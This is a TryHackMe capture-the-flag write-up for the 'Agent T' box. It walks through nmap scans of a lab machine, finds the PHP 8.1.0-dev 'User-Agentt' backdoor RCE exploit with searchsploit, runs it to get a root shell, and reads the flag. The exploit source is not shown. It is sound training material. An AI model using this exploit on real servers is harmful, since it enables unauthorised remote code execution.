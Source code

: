 ```yaml
---
title: "Agent T"
url: "/writeups/tryhackme/agent_t/"
summary: agent t
tags:
- tryhackme
- linux
- php
---
```


![Agent T](/Agent_T.png)

## Scanning
### nmap
Started with an `nmap` scan:

* TCP all ports
```bash
kali@kali:~/ctf/thm/agent_t$ sudo nmap -T4 -p- 10.10.49.137 -oA nmap/tcp_all_ports
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-14 21:06 EST
Nmap scan report for 10.10.49.137
Host is up (0.082s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
```
* TCP with scripts against found ports
```bash
kali@kali:~/ctf/thm/agent_t$ sudo nmap -sCV -p80 10.10.49.137 -oA nmap/tcp_def_scripts
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-14 21:07 EST
Nmap scan report for 10.10.49.137
Host is up (0.079s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
```
## Enumeration
### Web Page
Looks to be a simple Admin Dashboard with nothing really interesting found.
There are also a handful of links that lead to non-existent pages.
### searchsploit
```bash
kali@kali:~/ctf/thm/agent_t$ searchsploit PHP 8.1.0-dev
--------------------------------------------------------- -----------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- -----------------------
...
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution      | php/webapps/49933.py
...
```
Found an exploit for the version of PHP that is being used.
Can also be found here: https://www.exploit-db.com/exploits/49933
## Exploitation
Copied the found exploit locally and executed it.
```bash
kali@kali:~/ctf/thm/agent_t$ python3 exploit.py 
Enter the full host url:
http://10.10.49.137/

Interactive shell is opened on http://10.10.49.137/ 
Can't acces tty; job crontol turned off.
$ whoami
root
```
And a interactive shell is given back.
The flag can then be found.
### Flag
```bash
$ cat /flag.txt
flag{4127d0530abf16d6...}
```
